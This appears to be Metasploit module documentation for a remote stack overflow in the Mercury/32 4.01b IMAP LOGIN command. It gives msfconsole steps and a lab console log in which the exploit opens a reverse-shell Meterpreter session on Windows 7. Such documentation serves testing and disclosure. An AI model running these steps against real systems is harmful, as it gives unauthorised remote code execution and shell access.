 Mercury/32 <= 4.01b contains an stack based buffer overflow in IMAPD LOGIN verb. Sending an specially crafted IMAP login command allows remote code execution.

## Vulnerable Application

This module exploits a stack buffer overflow in Mercury/32 <= 4.01b IMAPD LOGIN verb. By sending a specially crafted login command, a buffer is corrupted, and code execution is possible. This vulnerability was discovered by (mu-b at digit-labs.org).

* [Mercury/32 v4.01a](https://www.exploit-db.com/apps/8e0bf8aec964af66a5d440ef705d548f-m32-401a.exe)
* [Mercury/32 v4.01b upgrade](http://web.archive.org/web/20070119125847if_/http://ftp.usm.maine.edu/pegasus/Mercury32/m32-401b.zip)

This module has been tested successfully on:

* Mercury/32 v4.01a on Windows XP SP3 (x86)
* Mercury/32 v4.01a on Windows 7 SP1 (x86)
* Mercury/32 v4.01a on Windows Server 2003 Standard Edition SP1 (x86)
* Mercury/32 v4.01b on Windows 7 SP1 (x86)

## Verification steps

  1. Install the vulnerable Mercury/32 application
  2. Start msfconsole
  3. Do: `use exploit/windows/imap/mercury_login`
  4. Do: `set RHOST IP`
  5. Do: `exploit`
  6. You should get a shell.

## Scenarios

### Mercury/32 v4.01a on Windows 7 SP1 x86
```
msf > use exploit/windows/imap/mercury_login1
msf exploit(windows/imap/mercury_login1) > set rhost 192.168.46.144
rhost => 192.168.46.144
msf exploit(windows/imap/mercury_login1) > exploit

[*] Started reverse TCP handler on 192.168.46.1:4444
[*] 192.168.46.144:143 - Sending payload (8931 bytes) ...
[*] Sending stage (179779 bytes) to 192.168.46.144
[*] Meterpreter session 1 opened (192.168.46.1:4444 -> 192.168.46.144:49219) at 2018-10-27 20:43:14 +0200

meterpreter >
Computer        : WIN-DQ8ELRSOJAO
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
